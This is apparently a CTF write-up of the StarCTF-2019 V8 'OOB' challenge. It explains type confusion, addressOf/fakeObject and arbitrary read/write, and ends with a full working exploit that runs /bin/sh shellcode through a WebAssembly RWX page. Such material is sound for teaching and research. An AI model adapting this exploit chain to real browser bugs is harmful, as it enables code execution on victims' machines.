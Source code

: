 ```yaml
---
title: V8 OOB
date: 2021-10-01 10:22:19
tags: v8
layout: default
---
```

Curt write up for a classic challenge V8-OOB
<!--more-->
# What's OOB

OOB is a challenge on StarCTF-2019. It's a basic but classical one.

# Basic for JS

V8 is an open source engine for JavaScript which is implemented in Chrome.

There are several passages for setting up the environment, learning some basic knowledge for about the JavaScript and V8.

* V8 Compiling

[V8 env](https://mem2019.github.io/jekyll/update/2019/07/18/V8-Env-Config.html)

* object's structure

[Fast properties in V8](https://v8.dev/blog/fast-properties)

* oob
[oob](https://www.freebuf.com/vuls/203721.html)

# OOB

The challenge gives a diff file to implement a vulnerability. 

```bash
git apply < oob.diff
```

The diff file adds a vulnerable method. In short, `array.oob()` would return `array[array.length]`  and `array.oob(x)` would set `array[array.length] =x` . As we all know, the subscript of an n-element-array is [0,n-1]. There for we could read and write the data out of the array. In V8, according to the structure of the object, it's the map of the object. 

So what can we do if we could read and modify any object's map? Yes, we can confuse the type explaining of the object. If we take an array of floats as an array of objects, we could read the address of the object while taking an array of objects as an array of floats, it would create a fake object. That's what we could exploit from OOB. 

# `addressOf` and `fakeObject`

More specifically, we could use `oob()` to get the map of float array and object array.

```jsx
var obj = [a:"a"];
var obj_array = [obj];
var float_array = [1.1];
// map_of_obj_array & map_of_float_array 
var mo = obj_array.oob();
var mf = float_array.oob();
```

And we could modify the map of an object to perform `addressOf` and `fakeObject`.

```jsx
function addressOf(obj)
{
	obj_array[0] = obj;
	obj_array.oob(mf);
	let res = f2i(obj_array[0])-1n;
	obj_array.oob(mo);
	return res;
}
function fakeObject(address)
{
	float_array[0] = i2f(address+1n);
	float_array.oob(mo);
	let res = float_array[0];
	float_array.oob(mf);
	return res;
}
```

- i2f is a function converts big `unsigned int` to `float`.
- f2i is a function converts float to `big` unsigned `int`.
- you can find it in [cheatsheet](https://n132.github.io/cheatsheet/)

# `aar` and `aaw`

We could conduct `aar(arbitrary address read)` and `aaw(arbitrary address write)` functions from `addressOf` and `fakeObject`. By faking a float array and modifying its element.

```jsx
var tmp = [1.1,1.1,1.1,1.1];
var mt = tmp.oob();
var fake = [mt,i2f(0n),i2f(0n),i2f(0x400000000n),1.1,1.1];
var fake_obj = fakeObject(addressOf(fake)-0x30n);
function aar(address)
{
	fake[2] = i2f(address-0xfn);
	return f2i(fake_obj[0]);
}
function aaw(address,value)
{
	fake[2] = i2f(address-0xfn);
	fake_obj[0] = i2f(value);
}
```

Now we can read and write arbitrary address in the memory. 

# Get shell

1. search in the memory to find some useful address→ get libc-base address → hijack hooks → get shell
2.  find some useful address in array.map.constructor.code.
3. `Web asm`, [https://wasdk.github.io/WasmFiddle/](https://wasdk.github.io/WasmFiddle/), find the rwx page in `wasmInstance.exports.main()` and modify the content to run our shellcode.

# EXP(Wasm)

```jsx
var _b = new ArrayBuffer(16);
var _f = new Float64Array(_b);
var _i = new BigUint64Array(_b);
function f2i(f)
{
	_f[0] = f;
	return _i[0];
}
function i2f(i)
{
	_i[0] = i;
	return _f[0];
}
function hex(i)
{
	return "0x"+i.toString(16).padStart(16,"0");
}

var obj = {a:"a"};
var oa = [obj];
var fa = [1.1]
var mo = oa.oob();
var mf = fa.oob();

function addressOf(obj)
{
	oa[0]= obj;
	oa.oob(mf);
	let res = f2i(oa[0])-1n;
	oa.oob(mo);
	return res;
}
function fakeObj(address)
{
	fa[0] = i2f(address+1n);
	fa.oob(mo);
	let res = fa[0];
	fa.oob(mf);
	return res;
}
var c = [1.1,1.1,1.1,1.1]
var mc = c.oob(); 
var fake = [
mc,
i2f(0n),
i2f(0n),
i2f(0x1000000000n),
1.1,
2.2
]
var faker = fakeObj(addressOf(fake)-0x30n);


function aar(addr)
{
	fake[2] = i2f(addr-0xfn);
	return f2i(faker[0]);
}
function aaw(addr,val)
{
	fake[2] = i2f(addr-0xfn);
	faker[0] = i2f(val);
}


var wasmCode = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
var wasmModule = new WebAssembly.Module(wasmCode);
var wasmInstance = new WebAssembly.Instance(wasmModule, {});
var f= wasmInstance.exports.main;
var shell = [0xf631483bb0c03148n, 0x69622fbf48d23148n, 0x8948570068732f6en,0x50fe7n];
var tmp = aar(addressOf(f)+0x18n)-1n;
tmp = aar(tmp+8n)-1n;
tmp = aar(tmp+0x10n)-1n
tmp = aar(tmp+0x88n)
var buf =new ArrayBuffer(shell.length*8);
aaw(addressOf(buf)+0x20n,tmp);
var v =new DataView(buf);
for(let i=0;i<shell.length;i++){
	v.setFloat64(i*8,i2f(shell[i]),true);
}
f();

//%DebugPrint(f);
//%SystemBreak();
```